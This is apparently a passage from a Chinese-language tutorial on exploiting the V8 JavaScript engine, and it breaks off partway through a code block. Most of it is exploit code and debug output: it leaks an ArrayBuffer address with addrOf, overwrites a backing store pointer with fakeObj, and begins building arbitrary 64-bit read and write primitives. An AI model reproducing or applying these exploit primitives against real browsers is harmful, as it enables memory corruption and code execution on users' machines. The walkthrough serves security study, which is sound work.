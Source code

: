 ```JS
// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store Address...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2fAddr);
```
通过以上代码实现覆盖arrBuf1的后备存储指针，让他指向arrBuf2对象。为此，我们为第一个数组缓冲区创建一个TypedArray，并且通过BigUint64Array使用64位无符号整数读取后备存储指针，更新后的代码如下
```JS
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address: 0x${arrBuf2Addr.toString(16)}`);

// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store Address...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);

// Validate Overwrite of Backing Store via TypedArray
let view1 = new BigUint64Array(arrBuf1)
let originalArrBuf2BackingStore = view1[4]
print(`[+] ArrayBuffer Backing Store: 0x${originalArrBuf2BackingStore.toString(16)}`);
%DebugPrint(arrBuf2)
```
输出如下
```C
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties...
[+] Properties p6 and p15 overlap!
[+] Leaking ArrayBuffer Address...
[+] ArrayBuffer Address: 0x7393e19360
[+] Corrupting ArrayBuffer Backing Store Address...
[+] ArrayBuffer Backing Store: 0x15b14db9f20
DebugPrint: 0000007393E19361: [JSArrayBuffer] in OldSpace
 - map: 0x00f8c4384371 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0075a6d10b21 <Object map = 000000F8C43843C1>
 - elements: 0x00f30a102cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0000015B14DB9F20
 - byte_length: 1024
 - neuterable
 - properties: 0x00f30a102cf1 <FixedArray[0]> {}
 - embedder fields = {
    0000000000000000
    0000000000000000
 }
```
可以观察到成功泄露了arrBuf2地址，并且~~覆写了arrBuf1的`backing_store`地址~~泄露了backing_store的地址，接着构建读写原语
因V8中所有的地址为32位，此处使用64位无符号整数类型数组
```JS
let memory = {
	read64(addr) {
		view1[4] = addr;
		let view2 = new BigUint64Array(arrBuf2);
		return view2[0];
	},
	write64(addr, ptr) {
		view1[4] = addr;
```
